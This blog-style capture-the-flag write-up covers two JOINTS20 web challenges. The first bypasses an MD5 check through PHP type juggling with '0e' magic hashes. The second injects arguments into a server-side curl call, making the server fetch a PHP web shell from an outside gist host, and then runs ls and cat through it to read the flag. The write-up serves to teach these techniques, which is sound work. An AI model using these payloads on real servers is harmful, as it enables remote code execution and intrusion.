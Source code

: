 ```yaml
---
layout: blog
title: "[writeup] JOINTS20 Web Writeups"
date: 2020-05-08T18:31:53.905Z
tags:
  - ctf
  - writeup
---
```

JOINTS20 Writeup (WEB)

<!--more-->

This is my writeup on JOINTS20, I could not play it on time so I play the game after it's over

## `ezStringMatching`

from the start, there is nothing suspicious in the web, so I tried to check the network tab on my browser and see this in the header or you can just simply use curl --head CTF.joints.id:40002  to see the header of the request:

```text
HTTP/1.1 200 OK
Host: ctf.joints.id:40002
Date: Mon, 04 May 2020 05:25:04 GMT
Connection: close
X-Powered-By: PHP/7.2.30
Debug: ?debug=v
Content-type: text/html; charset=UTF-8
```

there is debug option on the request, so let's try to identify  ctf.joints.id:40002/?debug

```php
<?
if (!empty($_POST["string1"]) || !empty($_POST["string2"])) {
  $xxx = $_POST["string1"];
  $yyy = $_POST["string2"];
  if ($xxx === $yyy) {
    echo "<center> <p>Match bosqquee!!</p> </center>";
  } else {
    if (md5($xxx) == md5($yyy)) {
      echo "<center> $flag </center>";
    } else {
      echo "<center> <p>Not Match bosqquee!!</p> </center>";
    }
  }
}
```

We can see on the source code, we have to match `md5($xxx) == md5($yyy)` how we can do that? 

Remember that PHP has type juggling because of the loose comparison (using `==` instead of `===`), you can see here for the cheat sheet. 

When using `==` or loosely comparison, the comparison between the operand just see if the value has the same value on the other hand if we use the strict comparison (using `===`) it not only compares the value but also the type. 

TL;DR: we can abuse the == operation, how?

The md5() operation calculates the hash of the value, if the hash computed starts with "0e" (or "0..0e") only followed by numbers, PHP will treat the hash as a float.  \
\
The hash value of 240610708 is 0e462097431906509019562988736854 and the hash value of QNKCDZO is 0e830400451993494058024219903391 AND THE PHP WILL TREAT THE COMPUTED HASH THAT STARTS WITH 0e  AS A FLOAT, DAMN. 

![](/images/uploads/fdbc4aec-6cba-4c5d-9701-f39d8caf5fa5.png)

> JOINTS20{b4bytyp3ju99lin9*md5*}

## `Twitter Collection`

this page provides a URL box that we can feel with a link and scrap the image if it succeeds it will send alert:

![](/images/uploads/21083120-c5f2-4a18-a926-91f239a95acc.png)

and it pops up at the bottom of the page, and it stored on the cookie I think? when I flush the cookie, the image disappears, poor waifu.  

and the important thing that is the image is downloaded locally to the server, mine is here `http://ctf.joints.id:10001/downloads/9eed2d697fb5a3fa35e8d1832471a6a8464d49fe/099a95c45237eaa2243500bf145da79534ec8460.jpg` so can we just upload any file?

I try to use some kind of special character in the URL i tried there is two response one is and one is (using `"` and `-`) and bingo, there is  500 internal error:

![](/images/uploads/6b17cc87-f0cb-44e6-be17-ddcd2b5fc77f.png)

and the preview of the error said that

`curl:(22)TherequestedURLreturnederror:404`

we can assume the download process is using curl for you who don't know that is curl you can always check it with man curl or curl --help. The command will be something like this curl <link>.

this is what I'm trying:

* normal query:  `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg`  → success uploaded
* using another link (contains my RCE script) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce.php` → error, PHP file detected
* using another link (contains my RCE script, but change the extension) `https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce` → error, the URL must be from pixiv?

when I'm trying curl, we can use curl to download multiple files, for example:

```
curl "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_a.jpg "https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" -o name_of_file_b.jpg
```

* trying to upload multiple files the one being from pixiv `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg -o a https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce -o b` → error, https error?
* until this time I'm trying with different payload and I unexpectedly found the correct payload, this is the payload I used: `https://pbs.twimg.com/media/EV2FFNpUYAAFSxk?format=jpg" "https://gist.githubusercontent.com/natkingchloe/be32d35e3e28bae77660267fb43de5bb/raw/f28431b71f501a9c75a529a3ff7c09964ca1b95e/rce" -o "rce.ph""p` → success, uploaded RCE

Note: 

* Bypassing the PHP filter using concatenate feature in bash

```shell
~
❯ echo "rce.php"
rce.php

~
❯ echo "rce.ph""p"
rce.php
```

* `-o` means output to a file and the argument after that is the file name with the extension

and viola:

![](/images/uploads/9ed0f832-c9b0-4206-84fd-b5b2e436415a.png)

```shell
❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php"
<br />
<b>Warning</b>:  system(): Cannot execute a blank command in <b>/var/www/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php</b> on line <b>2</b><br />


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls"
cfe8e2872fe2d82029e367879c9f782bee55da0d.jpg
d0b581aff1128cbcb5fb53a9025c7d3f09315abf.jpg
d9d65b15c6f896fb5211124cea5e923f06bd1caa.jpg
dfc6c84d54c615dc3a547503e3fd616c82c2adb8.jpg
ec.xx
rce.php


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=ls ../.."
apakah_ini_benderanya
collect.php
downloads
favicon.ico
get.php
index.php
license-free.txt
scripts
session.php
styles
styles


❯ curl "http://ctf.joints.id:10001/downloads/3e0766a83b992daee763e4c629190a1a434de474/rce.php?cmd=cat ../../apakah_ini_benderanya"

JOINTS20{ya_benar_ini_benderanya_uwu}JOINTS20{ya_benar_ini_benderanya_uwu}
```

![](/images/uploads/14903bb1-cbee-426f-a8d5-74d76db0ca0f.png)
